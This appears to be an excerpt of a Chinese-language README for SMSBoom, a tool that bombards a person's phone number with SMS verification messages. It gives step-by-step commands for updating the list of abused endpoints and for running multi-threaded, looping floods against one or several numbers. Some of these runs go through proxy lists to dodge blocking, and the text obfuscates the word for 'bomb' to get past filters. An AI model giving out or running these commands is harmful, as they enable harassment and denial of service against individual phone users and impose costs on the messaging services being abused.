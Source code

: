    4. 使用前必须更新一遍最新接口
    ```shell
    smsboom_pyinstall.exe update
    ```  
    > 若更新接口出现错误 `ssl_`,请参见 [issue](https://github.com/OpenEthan/SMSBoom/issues/2) **关闭代理软件**再 update.

   5. [对代理设置的说明](https://github.com/WhaleFell/SMSBoom#%E4%BD%BF%E7%94%A8%E4%BB%A3%E7%90%86), 小白可以暂时不看

   6. 传递参数,命令示例:

   启动64个线程,轰//炸一个人的手机号(198xxxxxxxx),只轰//炸一波。
   
   ```shell
   smsboom_pyinstall.exe run -t 64 -p 198xxxxxxxxx
   ```

   启动64个线程,轰//炸一个人的手机号(19xxxxxxx),启动循环轰//炸, 轮番轰//炸60次

   ```shell
   smsboom_pyinstall.exe run -t 64 -p 198xxxxxxxxx -f 60
   ```
   
   启动64个线程,轰//炸一个人的手机号(19xxxxxxx),启动循环轰//炸, 轮番轰//炸60次, 每次间隔30秒

   ```shell
   smsboom_pyinstall.exe run -t 64 -p 198xxxxxxxxx -f 60 -i 30
   ```
   
   启动64个线程,轰//炸一个人的手机号(19xxxxxxx),启动循环轰//炸, 轮番轰//炸60次, 每次间隔30秒, 开启代理列表进行轰炸

   ```shell
   smsboom_pyinstall.exe run -t 64 -p 198xxxxxxxxx -f 60 -i 30 -e
   ```

   启动64个线程,轰//炸多个人的手机号(138xxx,139xxxx),启动循环轰//炸, 轮番轰炸60次, 每次间隔30秒, 开启代理列表进行轰炸

   ```shell
   smsboom_pyinstall.exe run -t 64 -p 138xxxxxxxx -p 139xxxxxxxx -f 60 -i 30 -e
   ```


### 适用于大佬

#### 下载项目

- 方法一：使用Git:  

```shell
git clone https://github.com/AdminWhaleFall/SMSBoom.git/
```  

> 墙国加速
>  
> ```shell
> git clone https://github.do/https://github.com/AdminWhaleFall/SMSBoom.git
> ```  

- 方法二：点击下载[项目压缩包](https://github.com/AdminWhaleFall/SMSBoom/archive/refs/heads/master.zip)并解压.  

#### 配置环境  
